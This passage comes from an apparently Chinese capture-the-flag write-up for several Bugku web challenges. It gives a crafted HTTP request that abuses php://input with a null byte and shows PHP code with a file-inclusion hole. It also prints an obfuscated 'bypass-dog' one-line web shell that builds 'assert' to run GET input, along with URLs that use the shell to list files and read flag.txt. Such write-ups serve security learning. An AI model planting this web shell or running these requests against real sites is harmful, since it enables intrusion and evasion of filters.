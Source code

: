 a为php://input,php://input可以读取没有处理过的POST数据,post传入的bugku is a nice plateform! 即可。
最终请求包为：
```bash
POST /test/hello.php?id=q&b=%00144565&a=php://input HTTP/1.1
Host: 120.24.86.145:8006
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
X-Forwarded-For: 127.0.0.1, 127.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

bugku is a nice plateform!
```
# welcome to bugkuctf

```bash
<!--  
$user = $_GET["txt"];  
$file = $_GET["file"];  
$pass = $_GET["password"];  
  
if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){  
    echo "hello admin!<br>";  
    include($file); //hint.php  
}else{  
    echo "you are not admin ! ";  
}  
 --> 
 ```
 
 
# 过狗一句话
```bash
<?php $poc="a#s#s#e#r#t"; 
$poc_1=explode("#",$poc); 
$poc_2=$poc_1[0].$poc_1[1].$poc_1[2].$poc_1[3].$poc_1[4].$poc_1[5]; 
$poc_2($_GET['s']) ?>
```
[glob](http://www.w3school.com.cn/php/func_filesystem_glob.asp)</br>
[file](http://php.net/manual/zh/function.file.php)</br>
[print_r与var_dump的区别](http://blog.csdn.net/ltx06/article/details/52065330)</br>
给s赋值，命令执行，先读取文件
```bash
http://120.24.86.145:8010/?s=print_r(glob(%22*.*%22))
```
读取flag.txt
```bash
http://120.24.86.145:8010/?s=print_r(file(%22flag.txt%22))
```
# 字符？正则？
```bash
<?php 
highlight_file('2.php');
$key='KEY{********************************}';
$IM= preg_match("/key.*key.{4,7}key:\/.\/(.*key)[a-z][[:punct:]]/i", trim($_GET["id"]), $match);
if( $IM ){ 
  die('key is: '.$key);
}
```